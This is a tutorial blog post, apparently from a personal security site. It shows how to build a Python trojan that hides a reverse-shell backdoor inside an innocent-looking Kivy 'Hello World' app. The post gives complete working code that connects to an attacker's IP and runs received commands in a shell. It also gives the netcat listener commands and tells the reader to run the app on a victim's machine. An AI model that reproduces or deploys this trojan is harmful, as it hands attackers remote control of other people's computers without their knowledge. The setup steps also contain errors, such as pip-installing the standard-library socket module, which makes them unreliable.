 ```yaml
---
layout: post
title: How to Make a Simple Trojan with Python
date: 2022-09-23 07:00:00 -500
categories: [Ethical Hacking,python]
tags: [python]
---
```


<img src="https://raw.githubusercontent.com/Mostafatoumi/mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/How%20ToMake%20a%20Simple%20Trojan%20with%20Python%20.png" width="738" height="423">

***
<center><strong><font color="DarkGray">For the ones who didn’t know yet, a Trojan Horse Attack consists of embedding en exploit in an innocent-looking Application, or even in a document. As you might have guessed today we will embed a backdoor into a Kivy-made GUI. This attack is quite simple, the only thing you need to know is just some python and networking basics. Let us get started!</font></strong></center>


***
## **<strong><font color="Brown">Enumeration</font></strong>**
***

### **<strong><font color="DarkCyan">Requirements</font></strong>**
To get started, let's install the required libraries:
```bash
pip install kivy
pip install socket
pip install threaded
```
### **<strong><font color="DarkCyan">The Trojan</font></strong>**

How to build?

### **<strong><font color="DarkCyan">The Backdoor</font></strong>**

Among the many things we can embed in a Trojan Horse, I choose to embed a Backdoor.


* Basically, you can embed everything, but today we’ll embed a backdoor.

### **<strong><font color="DarkCyan">The App</font></strong>**

This is a key point, we will use the Kivy framework in order to develop an Innocent-looking app, but as the Trojan attack says, it will contain the malicious backdoor, which we’ll use to gain access to the computer. From then, you’ll own the target’s computer.


* Disclaimer : I am not a graphical apps experienced developer, just use them when I need. So the Trojan we’ll build has not a good graphics, however, you’ll be able to imporove it on your own with the Kivy’s documentation.

As said in the disclaimer, today we won’t focus on the graphic of the App, that can be easily improved just by going to Kivy’s Documentation, rather, we’ll focus on how to embed everything you want(here a Backdoor) in a graphical app.

### **<strong><font color="DarkCyan">The Hacker’s Machine</font></strong>**
we’ll just need to use Netcat and waitting for the response.open a Terminal Window and:
```bash
nc -lnv 4444
```
### **<strong><font color="DarkCyan">Start Coding</font></strong>**

Now it Is the moment to code our Trojan. Basically, we’ll organize using a function(a malicious one), and a class(the GUI). Such a simple code.

```python
from kivy.app import App
from kivy.uix.label import Label

import threading
import socket
import subprocess


def main():
    server_ip = 'your_local_ip'
    port = 4444
    
    backdoor = socket.socket()
    backdoor.connect((server_ip, port))

    while True:
        command = backdoor.recv(1024)
        command = command.decode()
        op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        output = op.stdout.read()
        output_error = op.stderr.read()
        backdoor.send(output + output_error)


class App(App):
    def build(self):
        return Label(text="Hello World")



mal_thread = threading.Thread(target=main)
mal_thread.start()


app = App()
app.run()
```

* ```Lines 1/2```: Imported some Kivy basic modules.

* Lines 4/6: Imported the Socket and Subprocess module for the backdoor. Then the threading module in order to be able to execute both the malicious code and neutral(the GUI code).

* ```Lines 9/22```: Used the code of the Backdoor Attack in Python article to create a main function that contains the backdoor.

* ```Lines 26/27```: Build a ```“Hello World”``` simple GUI.

* ```Lines 31/32```: Created a thread for the ```main()``` function and then started it ```(mal_thread.start())```.

* ```Lines 35/36```: Ran the simple GUI.

### **<strong><font color="DarkCyan">On the Attacker Machine</font></strong>**

As shown previously, we will be using Netcat to bind a port and listen for incoming connections. In this case, we will use the well known 4444 port. This command will give you no output until the Victim connects.


```bash
nc -lvp 4444
```
### **<strong><font color="DarkCyan">On the Target Machine</font></strong>**

After having started the attack on the Attacker’s Machine, we can complete it on the victim machine.

Just export the code to the target machine and execute it, in order for the backdoor to work make sure you entered the right IP address at line 10.

Once you execute the code on the Victim computer, you’ll see a Kivy app saying “hello world” on the victim’s, and you’ll see this on the Attacker’s side:


<img src="https://raw.githubusercontent.com/Mostafatoumi/mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/1.png" width="750" height="150">

* So, we got a shell on the Victim computer using a Reverse Shell. Great!


